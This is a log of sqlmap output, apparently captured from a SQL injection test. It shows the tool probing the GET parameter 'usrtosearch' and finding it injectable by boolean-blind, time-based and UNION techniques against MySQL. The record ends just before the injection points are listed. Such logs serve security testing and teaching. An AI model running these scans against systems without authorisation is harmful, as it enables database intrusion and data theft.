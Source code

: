 ```bash
[17:23:08] [INFO] heuristic (basic) test shows that GET parameter 'usrtosearch' might be injectable (possible DBMS: 'MySQL')
[17:23:08] [INFO] testing for SQL injection on GET parameter 'usrtosearch'

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] [17:23:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:23:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[17:23:21] [WARNING] reflective value(s) found and filtering out
[17:23:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[17:23:21] [INFO] GET parameter 'usrtosearch' seems to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
[17:23:21] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[17:23:21] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[17:23:21] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:23:21] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:23:21] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:23:21] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:23:21] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[17:23:21] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE, HAVING clause (BIGINT UNSIGNED)'
[17:23:21] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[17:23:21] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE, HAVING clause'
[17:23:21] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause'
[17:23:21] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[17:23:21] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace'
[17:23:21] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[17:23:21] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[17:23:21] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[17:23:21] [INFO] testing 'MySQL inline queries'
[17:23:21] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[17:23:21] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT)'
[17:23:21] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[17:23:21] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[17:23:21] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[17:23:21] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[17:23:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[17:23:22] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SELECT)'
[17:23:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)'
[17:23:32] [INFO] GET parameter 'usrtosearch' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)' injectable 
[17:23:32] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:23:32] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[17:23:32] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:23:32] [INFO] target URL appears to be UNION injectable with 3 columns
[17:23:32] [INFO] GET parameter 'usrtosearch' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[17:23:32] [WARNING] in OR boolean-based injections, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[17:23:32] [WARNING] automatically patching output having last char trimmed

GET parameter 'usrtosearch' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 152 HTTP(s) requests:
```